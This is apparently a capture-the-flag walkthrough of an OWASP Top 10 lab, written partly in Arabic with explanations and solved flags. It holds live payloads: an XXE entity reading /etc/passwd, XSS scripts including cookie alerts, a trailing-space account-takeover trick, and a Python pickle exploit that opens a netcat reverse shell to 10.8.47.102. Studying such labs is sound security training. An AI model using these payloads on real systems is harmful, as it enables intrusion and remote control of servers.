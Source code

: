 # OWASP Top 10

<details>
  <summary>[Severity 1] Command Injection Practical</summary>

> What strange text file is in the website root directory?

```
$ ls
```

```
css
drpepper.txt
evilshell.php
index.php
js 
```

> How many non-root/non-service/non-daemon users are there?  how to know that in linux

```
getent passwd | awk -F: '$3 >= 1000 && $7 != "/usr/sbin/nologin" && $7 != "/bin/false" && $1 != "nobody" {print $1}' | wc -l
```

```
0
```

> What user is this app running as?

```
$ whoami
```

```
www-data 
```

> What is the user's shell set as?

```
getent passwd www-data | cut -d: -f7
```

> What version of Ubuntu is running?

```
$ cat /etc/os-release
```

```
18.04.4 
```

> Print out the MOTD.  What favorite beverage is shown?

```
$ cat drpepper.txt
```

```
I love Dr Pepper 
```

</details>


<details>
   <summary>[Severity 2] Broken Authentication Practical</summary>


> What is the flag that you found in darren's account?

- if you try to rigister using ``darren``
  - user already exist
- now register using ``darren   `` and login you will found the flag

> do same to ``auther``





  
</details>



<details>
  <summary>[Severity 3] Sensitive Data Exposure (Challenge)</summary>

![image](https://github.com/user-attachments/assets/3998c50c-5e62-4c36-9e2d-d57e48981a08)


![image](https://github.com/user-attachments/assets/c32a4e6e-078b-4396-a759-683fd515eff1)


![image](https://github.com/user-attachments/assets/8f486f43-09ad-414f-b40a-2c12b57fd2de)

```
��������tablesessionssessionsCREATE TABLE sessions(
sessionID TEXT NOT NULL UNIQUE,
userID TEXT NOT NULL,
expiry INT NOT NULL,
PRIMARY KEY (sessionID))/Cindexsqlite_autoindex_sessions_1sessions�*�'�-tableusersusersCREATE TABLE users(
userID TEXT NOT NULL UNIQUE,
username TEXT NOT NULL UNIQUE,
password TEXT NOT NULL,
admin INT NOT NULL,
�h��GKHMMEY(user23023b67a32488588db1e28579ced7ecBobad0234829205b9033196ba818f7a872bJM4e8423b514eef575394ff78caed3254dAlice268b38ca7b84f44fa0a6cdc86e6301e0JMM   4413096d9c933359b898b6202288a650admin6eea9b7ef19179a06954edd0f6c05ceb
����mH%%$M23023b67a32488588db1e28579ced7ec$M4e8423b514eef575394ff78caed3254d#M  4413096d9c933359b898b6202288a650
�J����  Bob     Alice   admin
�$                              
```
> admin password hash is

```
6eea9b7ef19179a06954edd0f6c05ceb
```

> crack it on crackstation

```
qwertyuiop
```

```
THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```


</details>



<details>
    <summary>[Severity 4 XML External Entity - eXtensible Markup Language</summary>

## 📏 القواعد المهمة في كتابة XML (Syntax Rules)

| القاعدة                                          | الشرح                                                |
| ------------------------------------------------ | ---------------------------------------------------- |
| 🔸 كل XML لازم يكون عنده عنصر جذر (Root Element) | مثل `<data>...</data>`                               |
| 🔸 XML حساس لحالة الأحرف                         | `<To>` ≠ `<to>`                                      |
| 🔸 لازم تغلق كل العناصر                          | `<tag></tag>` أو باستخدام self-closing مثل `<tag />` |
| 🔸 القيم النصية يجب أن تُحاط بعلامات اقتباس      | `<tag attr="value">`                                 |
| 🔸 لا يوجد عناصر غير مغلقة مثل HTML              | (ما في `<br>` بس في `<br/>`)                         |




## 📋 مثال شامل:

```
<?xml version="1.0" encoding="UTF-8"?>
<bookstore>
  <book category="programming">
    <title lang="en">Learn XXE</title>
    <author>Cyber Falcon</author>
    <year>2025</year>
    <price>0.00</price>
  </book>
</bookstore>
```

---

📎 DTD (Document Type Definition)
هنا يبدأ الموضوع يكون خطير، لأننا راح نستخدم DTD في استغلال XXE لاحقًا.

إيش هو DTD؟
هو تعريف هيكل وهيئة المستند XML، ويقدر يحتوي على:

تعريف العناصر

السماح بالكيانات الخارجية (External Entities)

مثال DTD داخلي:


```
<!DOCTYPE mail [
  <!ELEMENT mail (to, from, subject, text)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT subject (#PCDATA)>
  <!ELEMENT text (#PCDATA)>
]>
```


☠️ لكن هنا الخطورة:
DTD يسمح بتعريف كيان خارجي External Entity زي كذا:



```
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

----

![image](https://github.com/user-attachments/assets/ef843c7a-364d-49dd-b57b-241504ee501b)


--- ---
---
---

🧱 مثال توضيحي:
ملف DTD داخلي:

```
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

XML يستند عليه:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

🧠 شرح مفصل لكل سطر في DTD:

| السطر                                    | المعنى                                                                               |
| ---------------------------------------- | ------------------------------------------------------------------------------------ |
| `<!DOCTYPE note [...]>`                  | يعرّف أن الجذر (Root Element) اسمه `note`                                            |
| `<!ELEMENT note (to,from,heading,body)>` | عنصر `note` لازم يحتوي بالترتيب على العناصر الأربعة: `to`, `from`, `heading`, `body` |
| `<!ELEMENT to (#PCDATA)>`                | العنصر `to` يحتوي بيانات نصية قابلة للقراءة (Character Data)                         |
| `#PCDATA`                                | اختصار لـ: **Parsed Character Data** → يعني نص يتم تفسيره                            |
| باقي العناصر (`from`, `heading`, `body`) | كلهم زي `to`، يحتوي بيانات نصية فقط                                                  |



🔎 أنواع البيانات في DTD:

| النوع      | الشرح                        |                                    |
| ---------- | ---------------------------- | ---------------------------------- |
| `#PCDATA`  | بيانات نصية قابلة للتحليل    |                                    |
| `EMPTY`    | العنصر لا يحتوي على أي محتوى |                                    |
| `ANY`      | العنصر ممكن يحتوي على أي شيء |                                    |
| \`(#PCDATA | element)\*\`                 | محتوى مختلط، ممكن يكون نص أو عناصر |



📦 أنواع DTD:


| النوع            | الوصف                                                |
| ---------------- | ---------------------------------------------------- |
| **Internal DTD** | يُكتب داخل ملف XML نفسه                              |
| **External DTD** | يُخزّن في ملف خارجي (`note.dtd`) ويتم ربطه بـ SYSTEM |



مثال ربط DTD خارجي:


```
<!DOCTYPE note SYSTEM "note.dtd">
```

🎯 ليش نستخدم DTD؟

- نتأكد أن ملف XML صحيح وصالح

- يسهل التعامل بين الأنظمة المختلفة

- أساس مهم في التحقق من الصيغة قبل استخدام XML في البرمجة أو المعالجة






## 🚨 ملاحظة أمان:
> لأن DTD يسمح بكيانات خارجية (<!ENTITY ... SYSTEM ...>)، نقدر نستغلها في هجمات XXE، وهذا بالضبط الي راح ندخله بعد ما نخلص الأساسيات.





![image](https://github.com/user-attachments/assets/c103f572-64be-44ed-8cde-fd16dffc6237)

---
---
---



🧪 أولًا: Payload بسيط (تعريف كيان داخلي)
💻 الكود:

```
<!DOCTYPE replace [
  <!ENTITY name "feast">
]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

🔍 الشرح:
<!ENTITY name "feast"> ← بنعرّف كيان اسمه name وقيمته "feast".

&name; ← بنستخدم الكيان داخل العنصر <lastName>.

📌 النتيجة بعد تفسير XML:

```
<userInfo>
  <firstName>falcon</firstName>
  <lastName>feast</lastName>
</userInfo>
```

✅ ده مثال تعليمي على إزاي XML ممكن يستخدم كيانات (Entities)، لكن ما فيهوش اختراق.



---


💣 ثانيًا: Payload حقيقي لاستغلال XXE لقراءة ملفات
💻 الكود:

```
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY read SYSTEM "file:///etc/passwd">
]>
<root>&read;</root>
```

🔍 الشرح:
<!ENTITY read SYSTEM "file:///etc/passwd"> ← هنا بنعرّف كيان خارجي (External Entity) بياخد قيمة محتوى ملف من السيرفر.

&read; ← بيتم استدعاء الكيان داخل العنصر <root>.

📌 لو التطبيق فيه ثغرة XXE ومش عامل الحماية اللازمة:

الكود ده هيخلي التطبيق يفتح ملف /etc/passwd من نظام التشغيل ويعرضه لك!

``📂 /etc/passwd``:

هو ملف في نظام لينوكس يحتوي على معلومات المستخدمين، وغالبًا ما يُستخدم لاختبار وجود الثغرة.



⚠️ ملاحظات مهمة:

1- ✅ لازم التطبيق يسمح بقراءة DTD أو ما يكون فيه الحماية (زي منع الكيانات الخارجية).

2- ❌ لو التطبيق عامل hardening (زي في Java أو PHP الحديثة)، ممكن البايلود ما يشتغل.

3- 🔒 بعض الملفات ممكن تكون مقفولة أو require root access، فقراءتها هتفشل.



🎯 خلاصة:


| النوع               | الشرح                               | مثال                                         |
| ------------------- | ----------------------------------- | -------------------------------------------- |
| **Internal Entity** | كيان داخلي بقيمة ثابتة              | `<!ENTITY name "feast">`                     |
| **External Entity** | كيان بيروح يقرأ من ملف أو URL خارجي | `<!ENTITY read SYSTEM "file:///etc/passwd">` |





![image](https://github.com/user-attachments/assets/2a9efdc7-aa39-447e-9033-a32ff99570e3)



![image](https://github.com/user-attachments/assets/ec86f674-36f1-4b6b-83a8-ae0ce0b50105)

![image](https://github.com/user-attachments/assets/5cff94f1-2320-4729-8c58-96f05ba90a33)






   
</details>







<details>
  <summary>[Severity 5] Broken Access Control</summary>


![image](https://github.com/user-attachments/assets/43c12a69-d4e0-474c-96d8-da456d3ee971)





</details>



<details>
  <summary>[Severity 6] Security Misconfiguration</summary>


![image](https://github.com/user-attachments/assets/887466f1-854d-4700-b280-6adcc500f8aa)

![image](https://github.com/user-attachments/assets/7fb4eaac-2932-4fad-8f0d-eb4f871f48f5)


![image](https://github.com/user-attachments/assets/68a62ce1-fd7c-4ae7-bc98-250cb8f8dbe7)


</details>




<details>
  <summary>[Severity 7] Cross-site Scripting</summary>


![image](https://github.com/user-attachments/assets/22b11381-3913-455e-8e46-66d3107f048f)

``payload``

```
(<script>alert(“Hello”)</script>)
```

```
ThereIsMoreToXSSThanYouThink
```

![image](https://github.com/user-attachments/assets/57694080-3c94-4a8b-b669-2183cad419b8)


--- 

``payload``

```
<script>alert(window.location.hostname)</script>
```

```
ReflectiveXss4TheWin
```

![image](https://github.com/user-attachments/assets/e5a528ee-c948-4703-ad1a-ed054c5bba65)





---

![image](https://github.com/user-attachments/assets/ceb2c310-751e-4087-8007-4921572e8143)

``payload``

```
<img src="invalid-image" onerror="alert('Stored XSS!')">
```

```
HTML_T4gs
```

---



``payload``

```
<script>alert(document.cookie)</script>
```

```
W3LL_D0N3_LVL2
```

![image](https://github.com/user-attachments/assets/470ef965-7445-4e83-b3e1-b05e86355c72)


---



``payload``

```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

```
websites_can_be_easily_defaced_with_xss
```

![image](https://github.com/user-attachments/assets/8264f9e1-63c4-41ca-ba2c-e925c46b70a0)






  
</details>



<details>
  <summary>[Severity 8] Insecure Deserialization</summary>


<details>

🔐 إيه هي Insecure Deserialization؟
Deserialization معناها:
تحويل البيانات المخزنة في شكل ملف (زي JSON، أو Binary) إلى كائن (Object) في البرنامج عشان يشتغل عليه.

Insecure Deserialization يعني إن الهاكر يقدر يغير البيانات دي (اللي هتتحول لـ Object) ويحط فيها كود خبيث، وبعدين التطبيق ينفذه وهو فاكر إن دي بيانات عادية.

🧠 تخيل معايا السيناريو:
التطبيق بيبعت Object مشفّر للمستخدم (زي user settings).

المستخدم يعدل البيانات ويرجعها.

التطبيق يفك التشفير (deserialize) ويستخدمها مباشرة بدون تحقق.

لو المستخدم حاطت كود خبيث... التطبيق يشغّله 😱


----

----
----
---

في البرمجة الكائنية (OOP)، الكائن (Object) بيتكوّن من:

State (الحالة): يعني هو "عامل إزاي دلوقتي"، أو "شكله/قيمه".

Behaviour (السلوك): يعني "هو بيعمل إيه"، أو "الوظائف اللي بيقدر يعملها".




---
----
----
---

🔄 إيه هو الـ Serialization / Deserialization؟
خلينا نبدأ بالتشبيه الأول:

👤 السياح والخرائط:
تخيل سائح ضايع في بلدك، وبيسألك على طريق معلم مشهور. المشكلة؟ هو مش بيتكلم لغتك، وانت مش فاهم لغته. فإيه الحل؟
ترسم له خريطة 👣 — لأن الصور مفهومة لأي شخص، وفعلاً قدر يوصل!

🎯 في المثال ده:

إنت رسمت خريطة = Serialization ➡️ حولت معلومات (الطريق) إلى شكل بسيط (الخريطة).

السائح فهم الخريطة = Deserialization ➡️ رجّع الخريطة لمعلومة مفهومة (الطريق الحقيقي).

🧠 طب ده معناه إيه في البرمجة؟
🔹 Serialization:
هي عملية تحويل كائن (Object) في البرنامج (مثلاً بيانات مستخدم، أو رسالة، أو باسورد) إلى صيغة مبسطة زي:

JSON

XML

Binary

والسبب؟ علشان تقدر:

ترسلها عبر الشبكة

تخزنها في قاعدة بيانات

🔹 Deserialization:
هي العملية العكسية، ترجّع البيانات المبسطة دي لكائن كامل تاني في البرنامج علشان تشتغل عليه.

🎯 مثال بسيط:
عندك باسورد: "password123"

قبل ما يتبعت لقواعد البيانات أو عبر الإنترنت، لازم يتحوّل لصيغة بسيطة (مثلاً binary أو JSON).

أول ما يوصل، يتفك تاني ويرجع "password123".

💀 فين المشكلة (Insecure Deserialization)؟
لو الـ deserialization حصل من غير تحقق من البيانات، ممكن الهاكر يبعَت بيانات فيها كود خبيث!
ولأن البرنامج بيثق في البيانات دي، هينفّذها زي ما هي 🔥

🚨 والنتائج ممكن تكون:
🧨 DoS: الموقع ينهار

👾 RCE (Remote Code Execution): الهاكر يشغل أوامر على السيرفر

🕳️ التطبيقات المعرّضة للخطر:
أي تطبيق بيخزن/يسترجع بيانات بدون تحقق كويس. أمثلة:

مواقع التجارة الإلكترونية

المنتديات

الـ APIs

أنظمة زي: Jenkins, Tomcat, JBoss



🧠 الخلاصة:

| المصطلح                  | معناه                                                                  |
| ------------------------ | ---------------------------------------------------------------------- |
| Serialization            | تحويل كائن لبيانات بسيطة (مثلاً JSON أو Binary) علشان يتخزن أو يتنقل.  |
| Deserialization          | تحويل البيانات البسيطة لكائن برمجي تاني نقدر نشتغل عليه.               |
| Insecure Deserialization | استغلال البيانات دي عشان ننفذ كود خبيث بسبب عدم وجود تحقق أو فحص سليم. |





----
----
----
----



🍪 إيه هي الـ Cookies؟
الكوكيز (Cookies) هي قطع صغيرة من البيانات بيخزنها الموقع على جهازك، والغرض منها هو تذكر معلومات عنك لما تتصفح أو ترجع للموقع تاني.

✅ ليه المواقع بتستخدم الكوكيز؟
بعض الاستخدامات الشائعة:
🛒 حفظ محتويات السلة (في مواقع الشراء).

🔐 حفظ بيانات الجلسة (session ID) بعد تسجيل الدخول.

🌐 تخصيص تجربتك على الموقع (مثلاً تفضل اللغة العربية؟ الكوكيز تعرف ده).

📈 تتبع نشاط المستخدم (لأغراض تحليلية وإعلانات).

⚠️ المشكلة في المثال اللي فوق:
الموقع بيخزن بيانات تسجيل الدخول بشكل نصّي عادي (plaintext) جوه الكوكيز 😱
ودي ثغرة أمنية خطيرة لأن أي حد يقدر يقرأها أو يسرقها بسهولة من المتصفح.

لكن مهم نوضح:
🔸 دي مش ثغرة Insecure Deserialization لأننا مش بنرسل كائنات متسلسلة (serialized objects) يتم تنفيذها بعد كده.
هي مجرد بيانات محفوظة بشكل غير آمن.

⏳ مدة صلاحية الكوكيز (Expiry):
مش كل الكوكيز بتفضل محفوظة دايمًا.

Session cookies: بتتحذف لما تقفل المتصفح.

Persistent cookies: بتفضل محفوظة لفترة، حسب التاريخ والوقت اللي بيتحدد في خاصية "Expiry".





⚙️ خصائص الكوكيز المهمة:


| الخاصية      | الوصف                                                       | مطلوب؟ |
| ------------ | ----------------------------------------------------------- | ------ |
| Cookie Name  | اسم الكوكي                                                  | ✔️ نعم |
| Cookie Value | القيمة اللي الكوكي بتخزنها (ممكن تكون نص، Base64، إلخ)      | ✔️ نعم |
| Secure Only  | لو اتفعلت، الكوكي ده هيتبعت فقط في الاتصالات الآمنة (HTTPS) | ❌      |
| Expiry       | الوقت اللي الكوكي هينتهي فيه ويتحذف من المتصفح              | ❌      |
| Path         | الكوكي ده هيتبعت فقط لو رابط الصفحة ضمن المسار المحدد       | ❌      |










  
</details>



![image](https://github.com/user-attachments/assets/ecf27e99-05da-4a48-80f0-660695602848)

change ``suertype`` to ``admin``

![image](https://github.com/user-attachments/assets/a00e66b5-9774-4844-b8c8-1412c5091bc2)

``sessionID``

```
gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAMDEyOGVlMzZkYmY1NDE2N2E2YmRiN2IxYjllOTUxYjFxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==
```

![image](https://github.com/user-attachments/assets/7a25b12c-b824-49a2-af98-0b558a8e6dfe)

```
THM{good_old_base64_huh}
```

---
---


![image](https://github.com/user-attachments/assets/7c64eb15-c87a-4f9f-a71d-8d9b7913b1e4)


```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.8.47.102 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))     
```

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC40Ny4xMDIgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

put it in ``encoded payload``

![image](https://github.com/user-attachments/assets/a010c61b-0a73-498a-96bd-6793358152b3)


refresh page or write feedback

![image](https://github.com/user-attachments/assets/6fd271d4-c84d-490c-9778-c46a60a58dcd)

![image](https://github.com/user-attachments/assets/d97bd937-a2c9-4176-9f2c-8a854843e75d)


``flag``


```
4a69a7ff9fd68
```




  
</details>



<details>
  <summary>[Severity 9] Components With Known Vulnerabilities - Intro</summary>


<details>


🔥 الثغرات المعروفة مسبقًا (Known Vulnerabilities)
أحيانًا وإنت بتعمل اختبار اختراق (Penetration Testing)، تكتشف إن الشركة بتستخدم برامج قديمة ومعروفة إنها فيها ثغرات.

🧪 مثال عملي:
شركة بتستخدم WordPress إصدار 4.6 (قديم جدًا).

إنت بتستخدم أداة اسمها wpscan علشان تتأكد من الإصدار.

تكتشف إن الإصدار ده فيه ثغرة RCE (تشغيل أوامر عن بُعد).

تعمل بحث بسيط، وتلاقي Exploit جاهز على موقع زي Exploit-DB.

يعني إيه RCE؟
يعني تقدر تشغّل أوامر على السيرفر بتاعهم عن بُعد كأنك على الجهاز نفسه! ودي كارثة.

🤯 ليه ده خطر جدًا؟
لأن:

الثغرات معروفة وموجودة في الإنترنت.

فيه أدوات كثيرة تقدر تكتشف البرامج وإصداراتها.

ولو الشركة ماحدّثتش النظام لأي سبب، حتى لو مرة واحدة، ممكن تكون معرضة لهجوم كبير.

📊 تقييم OWASP
منظمة OWASP صنّفت النوع ده من الثغرات كالتالي:

درجة الانتشار (Prevalence): رقم 3 = عالية جدًا

السبب؟ لأن من السهل على أي شركة إنها تنسى تحديث برنامج معين وبالتالي تبقى معرضة للهجوم.

⚠️ خلاصة:




| العنصر            | الشرح                                             |
| ----------------- | ------------------------------------------------- |
| المشكلة           | استخدام إصدارات قديمة من البرامج                  |
| النتيجة           | استغلال الثغرات المعروفة وتنفيذ هجوم بسهولة       |
| الأدوات المستخدمة | wpscan، exploit-db وغيرها                         |
| الحل              | دايمًا تحدّث برامجك، وخصوصًا WordPress وأنظمة CMS |
| تصنيف OWASP       | خطورة عالية، وانتشار كبير                         |





----

-----


استغلال الثغرات المعروفة — مثال عملي على Nostromo 1.9.6
الخطوة 1: تعرف على البرنامج والإصدار
في المثال ده، اكتشفنا إن السيرفر بيستخدم Nostromo 1.9.6، وده برنامج سيرفر ويب.

وجود اسم البرنامج ورقم الإصدار مهم جدًا، لأنه بيسهل علينا البحث عن الثغرات اللي تخصه.

الخطوة 2: البحث عن الثغرات على Exploit-DB
Exploit-DB موقع مهم جدًا، فيه قاعدة بيانات ضخمة للثغرات والاستغلالات الجاهزة (Exploits).

باستخدام اسم البرنامج + رقم الإصدار، نقدر نلاقي استغلالات جاهزة.

في المثال ده، لقينا سكريبت استغلال (exploit script) جاهز لـ Nostromo 1.9.6.

الخطوة 3: تشغيل السكريبت وتعديلاته
أول محاولة لتشغيل السكريبت ممكن تفشل.

لازم تكون فاهم لغة البرمجة اللي مكتوب بيها السكريبت (غالبًا Python, Perl, PHP, إلخ).

ممكن تلاقي أخطاء صغيرة، زي سطر برمجي لازم يتعطل (يكون comment) أو تعديل بسيط.

في المثال، لقينا إن السطر اللي مسبب المشكلة كان لازم يتعطل — تعديل سهل.

الخطوة 4: تشغيل السكريبت بنجاح والحصول على RCE
بعد التعديل، شغلنا السكريبت تاني.

فجأة حصلنا على Remote Code Execution (RCE) يعني تقدر تنفذ أوامر على السيرفر عن بُعد.

نقاط مهمة:
أغلب السكريبتات بتشرح بشكل واضح إيه الوسائط (arguments) اللي لازم تعطيها للسكريبت.

مش لازم تقرأ كل الكود، المطورين عادةً بيكتبوا دليل صغير للاستخدام.

ممكن المرة الأولى مش تكون التجربة سهلة، لازم تدور على النسخة الصح، أو تحلل صفحة الويب وتدور على أي معلومات تساعدك.

لو الثغرة معروفة، غالبًا تقدر تلاقي إصدار البرنامج بسهولة وتستغلها.

خلاصة:


| خطوة                        | شرح                                       |
| --------------------------- | ----------------------------------------- |
| 1. اكتشاف البرنامج والإصدار | ضروري لمعرفة نوع الثغرة                   |
| 2. البحث في Exploit-DB      | تجد استغلال جاهز لتوفير الوقت             |
| 3. تعديل السكريبت           | قد تحتاج لتعديلات بسيطة للتشغيل           |
| 4. التنفيذ والحصول على RCE  | الوصول لنقطة تمكنك من السيطرة على السيرفر |



















  
</details>




![image](https://github.com/user-attachments/assets/2fa9fe8a-2c41-4287-b878-afd44fc65245)

![image](https://github.com/user-attachments/assets/5d0a7d8a-77bd-4c20-bbcb-448903788b30)

![image](https://github.com/user-attachments/assets/b059849b-f516-4842-b751-ebfb528a8a0f)

![image](https://github.com/user-attachments/assets/6704f7ad-cd86-4d99-8d3e-c03672742d6a)

![image](https://github.com/user-attachments/assets/b648e849-7c42-45c2-882d-1a560016756f)








  
</details>






<details>
  <summary>[Severity 10] Insufficient Logging and Monitoring</summary>

<details>

شرح أهمية الـ Logging في تطبيقات الويب
ليه لازم نسجل كل حاجة بتحصل في التطبيق؟
لما حد بيستخدم التطبيق، كل فعل أو حركة بيعملها لازم تتسجل.

ليه؟ عشان لو حصل اختراق أو مشكلة، نقدر نعرف مين عمل إيه، وإمتى، وكده نقدر نحدد مدى الضرر اللي حصل.

لو ما فيش تسجيل (Logging) هيحصل إيه؟
مفيش تتبع للمخترق: مش هنقدر نعرف إيه اللي عمله المخترق داخل التطبيق.

مخاطر أكبر: المخترق ممكن يسرق بيانات أو يسبب أضرار أكبر من غير ما حد يعرف.

مشاكل قانونية: لو حصل تسريب بيانات شخصية (زي بيانات المستخدمين)، ومفيش سجل يوثق ده، ممكن الشركة تتعرض لغرامات أو مشاكل قانونية بسبب قوانين حماية البيانات.

إيه اللي لازم يتسجل في الـ Logs؟
رموز حالة HTTP (HTTP status codes): بتوضح هل الطلب ناجح أو فيه مشكلة.

الزمن (Time Stamps): الوقت اللي حصل فيه كل فعل.

أسماء المستخدمين (Usernames): عشان نعرف مين عمل إيه.

صفحات أو نقاط النهاية (API endpoints/page locations): عشان نعرف أي جزء من التطبيق تم استخدامه.

عناوين الـ IP: عشان نعرف من فين جاي الطلب.

مشكلة تسجيل المعلومات الحساسة
محتوى الـ Logs بيحتوي على بيانات مهمة وحساسة، فلازم نحتفظ بها بأمان.

لازم يكون فيه نسخ متعددة من الـ Logs مخزنة في أماكن مختلفة، عشان ما تتفقدش أو تتدمر.

التسجيل مش بس مهم بعد الهجوم، لكن كمان قبل الهجوم!
لازم يكون في مراقبة (Monitoring) مستمرة للـ Logs عشان نكشف أي نشاط مريب أو مش طبيعي بدري.

لو كشفنا المخترق بدري، نقدر نوقفه أو نقلل الضرر اللي ممكن يسببه.

أمثلة على الأنشطة المشبوهة (Suspicious Activity)
محاولات تسجيل دخول فاشلة كتيرة: ممكن حد بيحاول يخترق حساب.

طلبات من عناوين IP غير معروفة أو غريبة: مثلاً لو المستخدم عادةً يدخل من بلد معين وفجأة في دخول من بلد تاني.

استخدام أدوات تلقائية (Automated tools): زي الـ Bots اللي بيستخدموا هيدرز معينة أو يرسلوا طلبات بسرعة كبيرة.

استخدام payloads شائعة في الهجمات: زي هجمات XSS (حقن جافاسكريبت ضار) اللي ممكن تبين إن في حد بيجرب يهاجم التطبيق.

مش بس الكشف، لازم نحدد خطورة النشاط المشبوه
بعض النشاطات ليها تأثير أكبر من غيرها.

لازم نميز بين النشاطات الخطيرة واللي مش خطيرة.

الأنشطة الخطيرة لازم ترفع إنذار (Alarm) عشان المسؤولين يتدخلوا بسرعة.

ملخص سريع

| نقطة                 | شرح                                                                    |
| -------------------- | ---------------------------------------------------------------------- |
| ليه نعمل Logging؟    | عشان نقدر نتابع ونعرف مين عمل إيه، خصوصًا لو حصل اختراق                |
| إيه اللي بيتسجل؟     | رموز الحالة، الوقت، أسماء المستخدمين، صفحات التطبيق، عناوين IP         |
| ليه المراقبة مهمة؟   | عشان نكشف الهجمات بدري ونقلل الضرر                                     |
| أمثلة على نشاط مشبوه | محاولات دخول فاشلة، طلبات من IP غريب، استخدام أدوات تلقائية، هجمات XSS |
| الخطوة اللي بعدها    | تقييم الخطورة، وإطلاق إنذارات للحالات الخطيرة                          |




  
</details>


![image](https://github.com/user-attachments/assets/8becb7b9-86d4-4fdf-9fd6-cde974f615f5)



  
</details>















